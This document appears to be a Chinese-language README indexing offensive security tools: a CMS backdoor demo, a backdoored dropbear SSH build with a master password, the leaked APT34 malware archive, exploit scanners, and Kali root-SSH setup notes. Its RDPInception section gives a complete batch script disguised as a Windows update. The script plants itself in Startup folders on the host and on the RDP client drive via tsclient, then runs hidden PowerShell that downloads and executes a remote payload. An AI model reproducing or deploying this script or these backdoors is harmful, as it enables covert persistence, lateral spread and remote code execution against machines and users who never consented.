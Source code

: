 # 
## siteserver cms 5.X vuln demo
SiteServer CMS remote download getshell `demo.zip`下载的后门文件
## 修改OpenSSH源代码记录用户详细操作日志
openssh*.tar.gz 修改后的文件编译安装即可，*.docx为修改说明。
+ https://www.zhoufengjie.cn/?p=385
+ https://www.zhoufengjie.cn/?p=174

## run.js
Browser-based subdomain bruteforcing using DNS over HTTP(s) (DoH)
## dropbear
+ FAKE_ROOT: #define 强制伪"root"uid解析，即使目标系统无法解析用户名。
+ ALT_SHELL: #define 假冒root用户使用备用shell而不是/bin/sh登陆。
+ Server Master Password: 在dropbear命令行上指定-Y以指定要进行身份验证的“主”密码，当没有root用户时，对FAKE_ROOT很有用，因此没有root密码。
+ Forced Home Directory: 在dropbear命令行上指定-H，以使用户使用指定的主目录登录。当没有root用户时，对FAKE_ROOT很有用，因此没有root主目录。
```
wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2018.76.tar.bz2
tar xjf dropbear-2018.76.tar.bz2
cd dropbear-2018.76
./configure --disable-zlib
make
make install
mkdir /etc/dropbear
/usr/local/bin/dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key
/usr/local/bin/dropbearkey -t rsa -s 4096 -f /etc/dropbear/dropbear_rsa_host_key
/usr/local/sbin/dropbear -p 6666
```

## APT34-Leak

Pass: `vJrqJeJo2n005FF*`

+ Glimpse（Palo Alto Networks命名为BondUpdater的基于PowerShell的木马的新版本）
+ PoisonFrog（旧版BondUpdater）
+ HyperShell（Palo Alto Networks称之为TwoFace的网络外壳）
+ HighShell（另一个Web shell）
+ Fox Panel（网络钓鱼套件）
+ Webmask（DNS隧道，DNSpionage背后的主要工具）

## RDPInception
Bat To Exe转换器添加如下代码保存`windows.bat`
```
@echo off

echo Updating Windows ...

@echo off
timeout 1 >nul 2>&1

mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1

copy windows.exe C:\temp >nul 2>&1
copy windows.exe \\tsclient\c\temp >nul 2>&1

del /q %TEMP%\temp_00.txt >nul 2>&1

set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*

echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"

for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy windows.exe "%%a" >nul 2>&1
	copy C:\temp\windows.exe "%%a" >nul 2>&1
	copy \\tsclient\c\temp\windows.exe "%%a" >nul 2>&1
)

del /q %TEMP%\temp_00.txt >nul 2>&1

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x'))"
```
选项：

+ 工作目录：当前
+ EXE格式：32位windows隐藏
+ 嵌入式提取到：临时目录

转换bat保存为`windows.exe`,编辑`windows.bat`嵌入添加`windows.exe`重新转换为最终成品windows.exe

## kali_beef_start
Kali Beef Framework Start Script

## SambaCry漏洞扫描程序
存档的密码:`sambacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-sambacry/

## WannaCry漏洞扫描程序MS17-010
存档的密码:`wannacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-ms17-010/

## kali开启SSH服务，允许root登陆
```
systemctl enable ssh.service	//开启SSH服务开机启动
```
`nano /etc/ssh/sshd_config`允许root登陆
```
#PermitRootLogin prohibit-password
PermitRootLogin yes
#PasswordAuthentication yes
PasswordAuthentication yes
```
## kali设置固定ip
1.首先把kali虚拟机的**网络适配器**更改为**桥接模式**直连物理网络。<br>
2.查看自己主机的（是自己真实电脑的不是虚拟机）ip地址，网关，网段。<br>
3.修改`nano /etc/network/interfaces`文件，添加如下内容
```
auto eth0	//自动启动eth0网卡
iface eth0 inet static	//静态获取IP
address x.x.x.x	//固定ip地址，根据实际情况填写
netmask x.x.x.x	//子网掩码，根据实际情况填写
gateway x.x.x.x	//网关，根据实际情况填写
```
4.修改`nano /etc/resolv.conf`文件添加dns
```
nameserver 114.114.114.114
nameserver 8.8.8.8
```
5.重启系统或`/etc/init.d/networking restart`重启网络服务

## Puzlbox PHP模糊测试工具。
它通过执行动态程序分析来扫描几个不同的漏洞.目前正在进行以下测试：

+ 任意命令执行
+ 任意文件读/写/更改/重命名/删除
+ 本地文件包含（LFI）
+ 任意PHP执行
+ SQL注入
+ 反射的跨站点脚本（XSS）

对于每个测试，将特定有效负载（伪造请求）发送到Web应用程序，并分析来自服务器的响应。根据结果​​（HTTP响应代码，错误，......），测试将被解释为正面（发现潜在的漏洞）或负面。所有肯定测试都出现在生成的报告中，并带有已发送的有效负载

puzlbox [-s Server（默认本地主机）] [-m扫描模式（默认CFLPSX）] [绝对Web根目录] [-n No Unhook] [应用程序路径（以逗号分隔）]
